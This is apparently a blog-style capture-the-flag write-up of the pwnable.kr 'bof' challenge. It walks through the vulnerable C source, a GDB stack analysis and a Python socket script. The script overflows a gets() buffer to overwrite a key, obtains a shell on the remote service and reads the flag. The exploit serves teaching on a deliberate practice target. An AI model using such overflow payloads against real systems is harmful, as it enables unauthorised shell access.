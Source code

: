 ```yaml
---
title: bof - pwnable.kr
published: true
---
```


# [](#intro)Introduction

Let's go back to [Pwnable](https://pwnable.kr) and continue our journey collecting monster cards. Today, we are getting Smokie's card. Let's take a look at it!

# [](#level-description)Challenge description

The challenge description is:

> Nana told me that buffer overflow is one of the most common software vulnerability. 
>Is that true?
> 
> Download : http://pwnable.kr/bin/bof
> Download : http://pwnable.kr/bin/bof.c
>
> Running at : nc pwnable.kr 9000

I'm not sure if that is true, but it surely happens!

# [](#approach)Approach mindset

Let's change our approach mindset a bit for these kind of attacks:

1. Code review
2. Analyzing the binary
3. Crafting the attack
4. Solving


## [](#mindset-step0)Step 1 - Code review

Once we download the files from Pwnable, let's take a look at the challenge source code:

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```

Let's dissect this code.

### `func` function

This function takes an integer as argument under the name of `key`. After that, it initializes a buffer variable called `overflowme` with 32 bytes size allocation. It uses the `gets()` method to get user input. This method is known for having security issues regarding buffer overflow. Nowadays, this function has become obsolete because of its danger. You can understand it more [here](https://stackoverflow.com/questions/1694036/why-is-the-gets-function-so-dangerous-that-it-should-not-be-used).

Right after the `gets()` line, we have an if statement that compares our `key` to `0xcafebabe`. If that holds, we spawn a shell. If not, then it just prints "Nah...".

### `main` function

This function starts the code by calling `func`, passing the `key` argument as `0xdeadbeef`. This indicates that, from the code's flow, `key` will never be equal `0xcafebabe`, unless we overflow it!

## [](#mindset-step2)Step 2 - Analyzing the binary

Now that we understand how the code works, let's use GDB to analyze the binary and discover how we can overflow the stack, making the `key` variable equals `0xcafebabe`. Starting GDB with `gdb ./bof`, the first thing we should do is to add a breakpoint at `func`:

```bash
(gdb) b func
Breakpoint 1 at 0x632
(gdb) r
```

The idea here is to disassemble the `func` method to grab the memory address of the if statement:

<img src="../figs/bof1.png" alt="func breakpoint disassemble">

As we can see, the last line of the image above has `cmpl` instruction, which is used to compare two things. It is comparing `0xcafebabe` with the value in `%ebp`. Let's add a break point exactly there:

```bash
(gdb) b *0x56555654
Breakpoint 2 at 0x56555654
(gdb) c
Continuing.
overflow me : 
AAAAAAAAAAAAA
```

We pass a small input to check the stack right afterwards. Note that our input starts showing on the stack on the top-right corner of the image below, whereas the `0xdeadbeef` address on the bottom-left corner, which is the value stored on the `key` variable.

<img src="../figs/bof2.png" alt="stack">

Every 4 A's in a row produces a `0x41`. This means we need to count how many addresses appear between our first `0x41414141` until the very last one before `0xdeadbeef`. There are 13 of them, and since at each address we have 4 bytes, we need to multiply 13 by 4, which is 52. This is the size of our overflow string in order to overwrite the `key` variable:

<img src="../figs/bof3.png" alt="first overflow">

## [](#mindset-step3)Step 3 - Crafting the attack

We need to pass a payload that not only overflows the stack, but overwrites `0xdeadbeef` with `0xcafebabe`. Since this is probably a little-endian system, our payload must be `A*52 + \xbe\xba\xfe\ca`. Let's test it locally:

<img src="../figs/bof4.png" alt="first attempt locally">

It seems that this payload did not work. After a bit of research, I realized that the `gets()` function within `./bof` reads the provided input until a newline or EOF is encountered. As `cat` concludes its execution immediately after sending the payload, the pipe is closed, leading `gets()` to encounter an EOF. This premature EOF potentially causes `./bof` to proceed, triggering the stack smashing protection mechanism before the payload could effectively manipulate the program's flow.

To fix this, we need to ensure the pipe isn't closed prematurely. We can achieve such feat by adding another cat command at the end:

<img src="../figs/bof5.png" alt="first attempt locally">

Ok. since this works locally, let's write a python script that will use sockets instead of this weird piping problem.

```python
import socket

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
    sock.connect(("pwnable.kr", 9000))
    sock.send(b'A' * 52 + b'\xbe\xba\xfe\xca\n')
    sock.send(b'ls\n')
    print(sock.recv(128).decode())
```

This will make the system run `ls` and list its files:

<img src="../figs/bof6.png" alt="first attempt remote">

Great! It works!

## [](#mindset-step4)Step 4 - Solving!

Now that we have an exploit and we know where the flag is, we just need to change the line `sock.send(b'ls\n')` in our Python script to `sock.send(b'cat flag\n')` and run again:

<img src="../figs/bof7.png" alt="first attempt remote">

And there we have it!

# [](#conclusions)Conclusion

In this CTF, we were able to exploit a buffer overflow vulnerability by examining the source code, then the binary. Then, we found where in the stack the `key` variable was located and calculated the offset to overwrite it. A simple Python script did the job of retrieving the flag for us. Enjoy your newly dropped Smokie card. It was well deserved!

<img src="../figs/bof.png">

I hope you liked this write-up and learned something new. As always, don't forget to do your **research!**

<a href="/">Go back</a>

